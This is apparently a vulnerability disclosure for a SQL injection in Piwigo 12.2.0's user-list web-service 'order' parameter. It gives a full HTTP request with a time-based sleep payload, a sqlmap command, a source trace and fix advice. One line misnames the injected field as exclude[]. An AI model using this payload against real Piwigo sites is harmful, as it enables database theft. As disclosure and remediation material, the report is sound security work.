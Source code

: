 ### Vulnerability details


**vulnerability type：**SQL injection 
**vulnerability versions：**piwigo 12.2.0
**vulnerability Url：** [http://10.92.66.148/piwigo/ws.php?format=json&method=pwg.users.getList](http://10.92.66.148/piwigo/ws.php?format=json&method=pwg.users.getList)
**SQL injected fields exist**：**order**
### verification procedure 


log on to the system and go user-Management-user list 
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645694349612-48bd1e16-2a86-4765-8660-cd49cbe5da63.png#clientId=u15ad27cc-f5e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=657&id=u1d142fa1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=657&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=88030&status=done&style=none&taskId=u09ce7338-8d20-4cc9-9c9e-b96e87ebb61&title=&width=1920)
Vulnerability Data：
```java
POST /piwigo/ws.php?format=json&method=pwg.users.getList HTTP/1.1
Host: 10.92.66.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 101
Origin: http://10.92.66.148
Connection: close
Referer: http://10.92.66.148/piwigo/admin.php?page=user_list
Cookie: pwg_id=pkl5bk0ifq21ss8nb2j126u55j; pwg_display_thumbnail=no_display_thumbnail; pwg_album_manager_view=tile; pwg_plugin_manager_view=classic; pwg_user_manager_view=line; PHPSESSID=2a8da2cbc685d8412cbf8e64

display=all&order=(select*from(select+sleep(5)union/**/select+1)a)&page=0&per_page=5&exclude%5B%5D=2
```
Modify the exclude[] field and use Sleep(5) to execute SQL statements with a delay of 5 seconds. As shown in the following figure, data is returned with a delay of 5 seconds, proving that SQL injection exists:
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645695083763-ee8c8fc9-896d-475c-8418-9bfddb38f776.png#clientId=ub56e8d03-d575-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=963&id=u969d1d1f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=963&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=196586&status=done&style=none&taskId=ua7df5d8f-7e92-4847-9b5f-8cc46deac78&title=&width=1920)
Use SQLmap to verify vulnerabilities. Data packets are marked as injection points: 
```java
POST /piwigo/ws.php?format=json&method=pwg.users.getList HTTP/1.1
Host: 10.92.66.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 55
Origin: http://10.92.66.148
Connection: close
Referer: http://10.92.66.148/piwigo/admin.php?page=user_list
Cookie: pwg_id=pkl5bk0ifq21ss8nb2j126u55j; pwg_display_thumbnail=no_display_thumbnail; pwg_album_manager_view=tile; pwg_plugin_manager_view=classic; pwg_user_manager_view=line; PHPSESSID=2a8da2cbc685d8412cbf8e64

display=all&order=*&page=0&per_page=5&exclude%5B%5D=2
```
Execution Parameters 
**py -3 sqlmap.py -r text.txt  --batch --dbs**
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645694916505-5ebb9e56-d114-432a-841f-90d38407fdcb.png#clientId=ub56e8d03-d575-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=670&id=u1b1c00f0&margin=%5Bobject%20Object%5D&name=image.png&originHeight=670&originWidth=1712&originalType=binary&ratio=1&rotation=0&showTitle=false&size=79192&status=done&style=none&taskId=u08c49590-014d-4335-a043-56a830e0d0d&title=&width=1712)
You can see that the database name has been read, so you can Dump sensitive data directly from the database. Furthermore, if the database has DBA privileges, an attacker can take over the server.
​

### Vulnerability analysis


By analyzing the PHP files imported from ws.php and the parameters in the packet, you can trace it back to **pwg.users.php**
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645696554932-7f0ac51d-45fb-4fdb-8b7e-5c21bfec87b5.png#clientId=u4414a1b4-c4cf-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=847&id=u748295a8&margin=%5Bobject%20Object%5D&name=image.png&originHeight=847&originWidth=1835&originalType=binary&ratio=1&rotation=0&showTitle=false&size=174810&status=done&style=none&taskId=u5e6077ec-ab55-4b40-9207-b691eb9fd3e&title=&width=1835)

pwg.users.php is located in **\include\ws_functions\pwg.users.php**, and the order parameter is inserted into the SQL statement to join the query. And the SQL statement does not verify the validity of the passed parameters, resulting in SQL injection.
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645696679194-a2ac5790-faef-4260-a87a-cc7f9d7840d9.png#clientId=u4414a1b4-c4cf-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=525&id=u7e91d845&margin=%5Bobject%20Object%5D&name=image.png&originHeight=525&originWidth=1747&originalType=binary&ratio=1&rotation=0&showTitle=false&size=101923&status=done&style=none&taskId=ua6550307-cc5f-4ffb-9512-092256505c3&title=&width=1747)


### Vulnerability Fix
​

1. Precompile SQL statements in query parameters and filter special characters such as single and double quotation marks.
2. Perform a global check on SQL injection to prevent SQL injection.
​

